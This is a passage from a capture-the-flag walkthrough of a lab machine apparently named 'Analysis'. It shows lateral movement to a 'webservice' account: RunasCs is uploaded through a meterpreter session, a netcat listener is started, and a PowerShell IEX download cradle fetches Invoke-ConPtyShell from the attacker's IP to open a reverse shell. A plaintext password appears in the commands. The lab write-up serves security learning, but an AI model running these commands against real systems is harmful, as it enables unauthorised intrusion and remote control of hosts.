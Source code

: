 No we should run **RunasCs** as webservice.

```
┌──(Batman㉿GC)-[~]
└─$ wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
```

```
┌──(Batman㉿GC)-[~]
└─$ unzip RunasCs.zip
Archive:  RunasCs.zip
  inflating: RunasCs.exe             
  inflating: RunasCs_net2.exe
```

Now we should upload **RunasCs.exe** in the temporary directory of the meterpreter shell

```
meterpreter > cd C:/Windows/TEMP
meterpreter > pwd
C:\Windows\TEMP
meterpreter > upload RunasCs.exe runascs.exe
[*] Uploading  : /home/Batman/RunasCs.exe -> runascs.exe
[*] Uploaded 50.50 KiB of 50.50 KiB (100.0%): /home/Batman/RunasCs.exe -> runascs.exe
[*] Completed  : /home/Batman/RunasCs.exe -> runascs.exe
meterpreter >
```

Download **Invoke-ConPtyShell** and start web-server:

```
┌──(Batman㉿GC)-[~]
└─$ wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
```

Now run custom netcat listener on the local machine in another terminal.

```
┌──(Batman㉿GC)-[~]
└─$stty raw -echo; (stty size; cat) | nc -lvnp 4443
```

While In meterpreter as techinican run the following command.

```
C:\Windows\TEMP>runascs.exe "webservice" "N1G6G46G@G!j" "powershell.exe -c IEX(IWR -UseBasicParsing 'http://10.10.14.56:80/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.56 -RemotePort 4443 -Rows 120 -Cols 38 -CommandLine cmd.exe" -d "analysis.htb"
runascs.exe "webservice" "N1G6G46G@G!j" "powershell.exe -c IEX(IWR -UseBasicParsing 'http://10.10.14.56:80/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell -RemoteIp 10.10.14.56 -RemotePort 4443 -Rows 120 -Cols 38 -CommandLine cmd.exe" -d "analysis.htb"
[*] Warning: The logon for user 'webservice' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

No output received from the process.
```

While running the above, In netcat listener you will get another access ie **analysis\webservice**.
